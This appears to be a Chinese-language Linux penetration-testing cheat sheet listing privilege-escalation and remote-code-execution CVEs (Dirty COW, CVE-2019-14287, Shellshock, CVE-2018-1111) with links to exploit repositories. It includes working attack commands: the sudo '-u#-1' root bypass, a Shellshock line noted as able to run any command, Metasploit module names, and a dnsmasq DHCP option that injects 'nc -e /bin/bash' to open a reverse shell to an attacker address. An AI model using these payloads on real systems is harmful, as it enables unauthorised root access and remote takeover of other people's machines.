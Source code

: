 # Linux 渗透笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 漏洞利用
**资源**
- []()
- []()

## 漏洞查询
**工具**
- [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [InteliSecureLabs/Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

---

## 提权
**CVE-2016-5195 脏牛 Dirty COW**
- 影响范围
    - Linux 内核>=2.6.22(2007年发行),直到2016年10月18日修复

- 文章
    - [[翻译]从内核角度分析 Dirty Cow 原理](https://bbs.pediy.com/thread-218797.htm)

- POC | Payload | exp
    - [scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)
    - [dirtycow/dirtycow.github.io](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
    - [gbonacini/CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195)

**CVE-2017–1000405 Huge Dirty COW**
- 文章
    - ["Huge Dirty COW" (CVE-2017–1000405)](https://medium.com/bindecy/huge-dirty-cow-cve-2017-1000405-110eca132de0)

- POC | Payload | exp
    - [bindecy/HugeDirtyCowPOC](https://github.com/bindecy/HugeDirtyCowPOC)

**CVE-2019-14287**
- 文章
    - [How to detect CVE-2019-14287 using Falco](https://sysdig.com/blog/detecting-cve-2019-14287/)

- POC | Payload | exp
    ```bash
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"

    sudo -u#-1 id -u
    或者:
    sudo -u#4294967295 id -u
    ```

---

## 远程代码执行
**CVE-2014-6271** Bash 远程代码执行漏洞"破壳"
- 文章
    - [Bash远程代码执行漏洞"破壳"(CVE-2014-6271)分析](https://www.antiy.com/response/CVE-2014-6271.html)

- POC | Payload | exp
    - [scottjpack/shellshock_scanner](https://github.com/scottjpack/shellshock_scanner)

- 本地验证方法

    `env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"`

    执行命令后,如果显示 Vulnerable CVE-2014-6271,证系统存在漏洞,可改变 echo Vulnerable CVE-2014-6271 为任意命令进行执行.

- MSF 模块
    ```bash
    use exploit/linux/http/ipfire_bashbug_exec
    use exploit/multi/http/cups_bash_env_exec
    use exploit/unix/dhcp/bash_environment
    ```

**CVE-2018-1111** DHCP 客户端脚本代码执行漏洞
- 文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [ knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了
